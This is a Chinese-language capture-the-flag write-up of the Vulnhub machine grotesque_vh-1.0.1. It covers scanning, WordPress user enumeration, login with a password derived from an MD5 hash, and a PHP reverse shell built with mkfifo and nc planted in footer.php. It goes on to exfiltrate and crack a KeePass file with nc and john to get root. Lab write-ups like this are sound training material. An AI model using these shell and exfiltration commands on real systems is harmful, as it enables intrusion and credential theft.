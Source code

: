 ```yaml
---
layout: post
title: grotesque_vh-1.0.1
subtitle: grotesque_vh-1.0.1
date: 2025-07-16 15:40
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

### 环境搭建

[【Vulnhub靶场】解决IP找不到的办法](https://blog.csdn.net/chao321654987/article/details/145914309)
### 信息搜集

搜索IP，发现主机 `192.168.163.134`

![image.png](https://img.ghostliner.top/3k7JpE.png)

扫描端口发现66和80两个http端口

```shell
namp -T4 -A -p- 192.168.163.134
```

![image.png](https://img.ghostliner.top/BRzNRF.png)

扫描目录，发现80端口无内容，扫描66端口

```shell
dirsearch -u http://192.168.163.134:66/
```

![image.png](https://img.ghostliner.top/5eiLQC.png)

访问`changelog.txt`确定`vvmlist`版本为 `16.01.2021`

![image.png](https://img.ghostliner.top/ROdua0.png)

whatweb扫描网站

![image.png](https://img.ghostliner.top/jDnHct.png)

主页发现链接可以下载项目压缩包： http://192.168.163.134:66/vvmlist.zip

解压后打开

发现`sshpasswd.png`图片获取疑似用户名：`mossad`

网站主页发现特殊字符串，分析是`Brainfuck`代码

![image.png](https://img.ghostliner.top/r3vmo9.png)

解码得到 `/sshpasswd.png`

查看项目文件，在 `sense.md` 文件找到提示

![image.png](https://img.ghostliner.top/wrbRpk.png)

访问`/lyricsblog` 发现wordpress站点，F12发现提示，访问到图片

![image.png](https://img.ghostliner.top/5SqyhB.png)

![image.png](https://img.ghostliner.top/5Z2fmd.png)

扫描目录

```shell
dirsearch -u http://192.168.163.134/lyricsblog/ -e* -i 200
```

![image.png](https://img.ghostliner.top/FCr09S.png)

发现后台登录地址 `/lyricsblog/wp-login.php`
#### 获取用户名密码

wpscan扫描用户名，获取到 `erdalkomurcu`

```shell
wpscan --url http://192.168.163.134/lyricsblog/ -e u
# 保存
echo "erdalkomurcu" > user.txt
```

浏览站点发现与图片中文字相同的文章

![image.png](https://img.ghostliner.top/5bLaoe.png)

将文章内容保存到 `lyrics.txt` 计算其MD5值

![image.png](https://img.ghostliner.top/EUugLE.png)

转换为大写字符

```shell
echo "bc78c6ab38e114d6135409e44f7cdda2" | tr 'a-z' 'A-Z'
# BC78C6AB38E114D6135409E44F7CDDA2
```

使用用户名：`erdalkomurcu`，密码：`BC78C6AB38E114D6135409E44F7CDDA2` 登陆成功
### 反弹shell

浏览页面找到可以注入PHP代码的位置

![image.png](https://img.ghostliner.top/HVIuKb.png)

在footer.php添加反弹shell代码

```php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.163.132 4444 >/tmp/f');
```

![image.png](https://img.ghostliner.top/dPdexr.png)

kali执行 `nc -lvp 4444` 开启监听，并反弹成功

发现`raphael`用户目录下`user.txt`但无权查看

查找网站配置文件，发现数据库配置

![image.png](https://img.ghostliner.top/IuQs5f.png)

获得用户名：`raphael`，密码：`_double_trouble_`

尝试切换用户，成功

![image.png](https://img.ghostliner.top/A5msB5.png)

查看 `user.txt`文件，发现内容

![image.png](https://img.ghostliner.top/QbUVOK.png)
### root提权

查看隐藏文件，发现 `.chadroot.kdbx`文件

![image.png](https://img.ghostliner.top/iPoLP3.png)

`.kdbx`为密码管理软件 `KeePass`生成的密码文件后缀名

传输到kali进行解密

```shell
# dc-9
nc 192.168.163.132 5555 < .chadroot.kdbx
# kali
nc -lvp 5555 >keepass
# 解密
keepass2john keepass | tee pass.txt
john pass.txt
```

![image.png](https://img.ghostliner.top/sl1TsA.png)

![image.png](https://img.ghostliner.top/zcN2b1.png)

解密得到 `chatter`

打开网站[KeeWeb](https://app.keeweb.info/)上传 `keepass`文件，输入密码 `chatter`，得到4组root密码

![image.png](https://img.ghostliner.top/hf1unI.png)

```
.:.yarak.:.
secretservice
.:.subjective.:.
rockyou.txt
```

使用 `.:.subjective.:.` 登录成功

![image.png](https://img.ghostliner.top/SXIzFt.png)

### 获取flag

![image.png](https://img.ghostliner.top/jFA97D.png)
